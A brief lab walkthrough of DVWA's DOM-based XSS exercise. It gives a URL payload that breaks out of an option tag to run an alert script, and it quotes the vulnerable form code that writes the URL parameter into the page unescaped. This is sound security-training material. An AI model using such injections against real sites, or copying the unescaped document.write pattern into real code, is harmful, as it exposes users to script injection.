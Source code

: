 Select any option, you would see `?default=lang` in the URL, simply add this script in the URL smartly:
```
?default=English</option><script>alert('XSS')</script>
```
so the URL looks like:
`localhost/DVWA/vulnerabilities/xss_d/?default=English</option><script>alert('XSS')</script>`

This happens because the form code for this xss_dom is:

		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>

we close the option's tag and pass our stuff there.

